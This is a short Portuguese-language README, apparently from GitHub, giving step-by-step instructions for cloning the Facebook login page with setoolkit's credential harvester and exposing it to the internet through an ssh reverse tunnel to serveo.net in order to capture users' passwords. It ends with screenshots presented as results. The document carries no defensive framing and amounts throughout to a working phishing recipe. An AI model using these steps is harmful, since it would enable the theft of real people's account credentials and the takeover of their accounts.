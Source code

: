 # Subindo um phishing para captura de senhas do Facebook na internet

### Ferramentas

- Kali Linux
- setoolkit
- ssh

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Configurando o ssh
> ssh -R 80:localhost:80 serveo.net

### Resutados

![Alt text](./passwd.png "Optional title")

![Alt text](./poc1.jpg "Optional title")

![Alt text](./poc-2.jpg "Optional title")

![Alt text](./poc-3.jpg "Optional title")
